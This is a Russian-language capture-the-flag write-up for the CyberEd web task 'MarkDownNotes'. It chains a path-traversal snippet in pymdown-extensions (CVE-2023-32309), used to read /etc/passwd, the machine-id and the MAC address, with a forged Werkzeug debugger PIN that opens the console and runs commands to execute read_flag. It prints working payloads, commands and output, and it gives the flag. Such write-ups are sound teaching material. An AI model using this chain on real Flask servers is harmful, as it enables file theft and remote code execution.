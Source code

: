 
Райтап на Web таск от CyberEd - "MarkDownNotes"
Описание:
"MarkDownNotes - очередной сайт для хранения заметок. Мы заботимся о безопасности данных наших клиентов! Однако на поддержание сервиса уходит много средств, поэтому бесплатно предоставляются только 10 заметок. Используйте их с умом! Акция: найдите багу по программе бабаунти и докажите её, исполнив файл read_flag в корне приложения, и получите бесплатное пользование сервисом навсегда!"

После регистрации на [сайте](http://mdn.cyber-ed.space) нас встречает сервис заметок:
![main_site](https://github.com/k3vg3n/MDN/assets/87700221/7a506887-a406-41d5-a6d2-1bda25fa43d7)
Добавлять можно до 10 заметок на аккаунт.


### Разведка
Запустим nikto:

![nikto_out](https://github.com/k3vg3n/MDN/assets/87700221/d70df5d4-7285-463c-b0a1-5e2c44769ed0)


Переходим на http://mdn.cyber-ed.space/console:
![flask_console](https://github.com/k3vg3n/MDN/assets/87700221/6549e1d5-abeb-4844-86d3-3ec23e4dada3)

На нем находится Werkzeug Debugger, значит сайт написан на Flask.
Чтобы зайти в консоль и выполнить файл read_flag нам нужно знать pin-код, а у нас его нет.
Из [статьи](https://habr.com/ru/articles/738238/pin-код) узнаем, что pin-код flask генерируетcя на основе:
1.  Appname (`getattr(app, "__name__", type(app).__name__)`) по умолчанию имеет значение `Flask`
2. `getattr(mod, "__file__", None),` или путь до Flask
3. Modname, по умолчанию `flask.app`
4. Username - имя пользователя в системе linux
5. MAC-адрес устройства
6. Machine_id - ID устройства
Нам сразу известны Appname и Modname.
Надо найти остальные значения, прочитав файлы в системе.

### Получаем AFR (arbitrary file read)
Тут обращаемся к особенности таска - *markdown*.
Ищем расширения на python:
![markdown_search](https://github.com/k3vg3n/MDN/assets/87700221/21fad3e3-d858-4a2d-87f8-feded7cb1525)

Находим два основных расширения: Python-Markdown и pymdown-extensions.
На Python-Markdown я не нашел AFR, в отличии от pymdown-extensions ([CVE-2023-32309](https://www.cve.org/CVERecord?id=CVE-2023-32309), [github](https://github.com/advisories/GHSA-jh85-wwv9-24hv)):
![pymdown_AFR](https://github.com/k3vg3n/MDN/assets/87700221/ec8d3dfd-5423-496a-bd68-461ae102a6eb)

Создадим шаблон, который мы будем менять и отправлять: `--8<-- "../../../../etc/passwd"`
Попробуем прочитать /etc/passwd (`--8<-- "../../../../etc/passwd"`):
![passwd](https://github.com/k3vg3n/MDN/assets/87700221/080749f6-43dc-4ac7-9753-82635796aa36)

Успешно.
Теперь мы можем прочитать нужные нам файлы для генерации pin-кода.

### Получение данных и генерация pin-кода
Имя пользователя мы уже получили из /etc/passwd - "app"
Чтобы получить MAC-адрес, нам нужно знать по какому интерфейсу устройство выходит в сеть. Для этого читаем файл `/proc/net/dev` (`--8<-- "../../../../proc/net/dev"`):
```
Inter-| Receive | Transmit face |bytes packets errs drop fifo frame compressed multicast|bytes packets errs drop fifo colls carrier compressed eth0: 86949846 338155 0 0 0 0 0 0 100381675 357756 0 0 0 0 0 0 lo: 1341217 13102 0 0 0 0 0 0 1341217 13102 0 0 0 0 0 0
```
Видно, что соединение происходит по eth0.
Смотрим MAC-адрес (`--8<-- "../../../../sys/class/net/eth0/address"`):
`02:42:ac:18:00:04`

Чтобы найти machine-id читаем файл `/etc/machine-id`:
`04a9330868336aa19c457b402d5a4f7c`
и  `/proc/self/cgroup`:
```
12:blkio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 11:rdma:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 10:pids:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 9:perf_event:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 8:freezer:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 7:net_cls,net_prio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 6:devices:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 5:hugetlb:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 4:cpu,cpuacct:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 3:cpuset:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 2:memory:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 1:name=systemd:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
```
Из `/proc/self/cgroup` нам нужна последняя строчка:
`0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9`

Чтобы найти путь к app.py мы должны вызвать ошибку в Flask. Для этого можно отправить POST запрос на создание заметки без указания "title" и "content": 
```
POST 
http://mdn.cyber-ed.space/profile 
Cookie: session=your_cookie
```
![burp](https://github.com/k3vg3n/MDN/assets/87700221/981eca62-255a-4507-ac4d-456c63e77fae)

Путь к приложению: `/usr/local/lib/python3.8/site-packages/flask/app.py`

Итого имеем:
```
machine_id: 04a9330868336aa19c457b402d5a4f7c
username: app
name: Flask
Modname: flask.app
MAC: 02:42:ac:18:00:04
path: /usr/local/lib/python3.8/site-packages/flask/app.py
```

Для генерации pin-кода и cookie используем [этот скрипт](https://github.com/SidneyJob/Werkzeuger).

Устанавливаем:
```
git clone https://github.com/SidneyJob/Werkzeuger
cd Werkzeuger
```

Запускаем скрипт, подставляя наши значения:
```
python gen.py --username app --path /usr/local/lib/python3.8/site-packages/flask/app.py --mac 02:42:ac:18:00:04 --machine_id 04a9330868336aa19c457b402d5a4f7c  --cgroup 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9

```
Получаем куки:
![run_script](https://github.com/k3vg3n/MDN/assets/87700221/14e40c6d-a0ec-4853-8a4a-92fcd6295981)

![run_script_out](https://github.com/k3vg3n/MDN/assets/87700221/fd20a744-4bbc-4eb1-8154-6cb34596c43b)


Нам нужны строчки:
```
[+] Success!
[*] PIN: 233-535-197
[*] Cookie: __wzd49d0c27c7911c3fc007f=1710008146|6e27d4a6cf2a
[*] Modname: flask.app
[*] Appname: Flask
```


### Получаем доступ к консоли
Если у Вас превышен лимит на ввод pin-кода, то открываем [консоль](http://mdn.cyber-ed.space/console) и подставляем куки в браузер (иначе можете просто ввести pin):
![new_cookie](https://github.com/k3vg3n/MDN/assets/87700221/cf07246a-b090-4da9-b2b3-ca667192cfbf)

Перезагружаем страницу.
Мы зашли в консоль.
![console_enter](https://github.com/k3vg3n/MDN/assets/87700221/7dd318ef-c31c-430b-8d00-d6c3ecf2617a)



### Получаем флаг
Посмотрим файлы в директории:
```
import subprocess
subprocess.run(["ls", "-lah"], capture_output=True)
```
Видим тот самый файл с флагом.
```
CompletedProcess(args=['ls', '-lah'], returncode=0, stdout=b'total 72K\ndrwxr-xr-x 1 app app 4.0K Mar 9 15:14 
ndrwxr-xr-x 1 root root 4.0K Mar 5 14:38 
-rw-r--r-- 1 app app 519 Sep 23 20:02 config.py
-rwxr-xr-x 1 app app 151 Sep 22 15:07 entrypoint.sh
-rw-r--r-- 1 app app 162 Sep 23 18:35 main.py
-rw-r--r-- 1 app app 599 Sep 22 15:07 manage.py
drwxr-xr-x 1 app app 4.0K Sep 22 14:19 models
drwxr-xr-x 1 app app 4.0K Sep 23 19:26 modules
---s--x--x 1 root root 17K Sep 23 16:40 read_flag
-rw-r--r-- 1 app app 118 Sep 23 18:38 requirements.txt
drwxr-xr-x 4 root root 4.0K Sep 22 14:52 static
drwxr-xr-x 1 app app 4.0K Sep 22 14:23 templates
drwxr-xr-x 1 app app 4.0K Sep 23 18:33 utils', stderr=b'')
```
Смотрим в какой директории мы находимся:
```
subprocess.run(["pwd"], capture_output=True)
```
Мы находимся в папке "/app":
`CompletedProcess(args=['pwd'], returncode=0, stdout=b'/app\n', stderr=b'')`

Чтобы выполнить файл "read_flag" вводим команду:
```
subprocess.run(["/app/read_flag"], capture_output=True)
```
Получаем флаг:
```
CompletedProcess(args=['/app/read_flag'], returncode=0, stdout=b'flag{fl45k_d3bu6_m0d3_15_un54f3}', stderr=b'')
```
![console_flag](https://github.com/k3vg3n/MDN/assets/87700221/5ea91a4d-be37-4294-b1e7-258164b0c2b8)

##### Флаг: flag{fl45k_d3bu6_m0d3_15_un54f3}


Спасибо за прочтение!

Полезные ссылки:
https://habr.com/ru/articles/738238/
https://security.snyk.io/vuln/SNYK-PYTHON-PYMDOWNEXTENSIONS-5537103
